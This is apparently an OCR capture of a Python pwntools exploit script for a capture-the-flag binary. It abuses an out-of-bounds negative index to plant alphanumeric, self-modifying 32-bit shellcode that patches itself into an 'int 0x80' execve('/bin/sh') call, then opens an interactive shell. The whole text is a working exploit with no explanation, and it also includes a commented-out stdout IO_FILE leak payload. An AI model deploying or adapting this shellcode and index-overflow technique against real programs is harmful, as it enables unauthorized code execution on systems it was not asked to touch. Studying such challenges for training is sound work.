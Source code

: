 ```python
    a.sendlineafter("Your choice :",str(idx))
def add(idx,name):
    menu(1)
    a.sendlineafter("Index :",str(idx))
    a.sendlineafter("Name :",name)
    return 

def delete(idx):
    menu(3)
    a.sendlineafter("Index :",str(idx))
    return 
    
def edit(idx,content):
    return 
    
def show(idx):
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33 IO_FILE

#debug()

shellcode = '''
    /* execve(path='/bin///sh', argv=0, envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    push esp
    pop ebx
   /*rewrite shellcode to get 'int 80'*/
    push 0x60606060
    pop edx
    sub byte ptr[eax + 0x32] , dl
    sub byte ptr[eax + 0x32] , dl
    sub byte ptr[eax + 0x31] , dl
    push 0x3e3e3e3e
    pop edx
    sub byte ptr[eax + 0x31] , dl
    /*set zero to edx*/
    and cl, byte ptr[eax + 0x33]
    push ecx
    pop edx
   /*set 0x0b to eax*/
    push edx
    pop eax
    xor al, 0x40
    xor al, 0x4b    
'''
sc = asm(shellcode) + "\x6b\x40\x20"
for i in range(len(sc) / 4):
    print hex(u32(sc[i*4:(i+1)*4]))
print len(sc)
add(-19,sc)
delete(-19)


a.interactive()

```

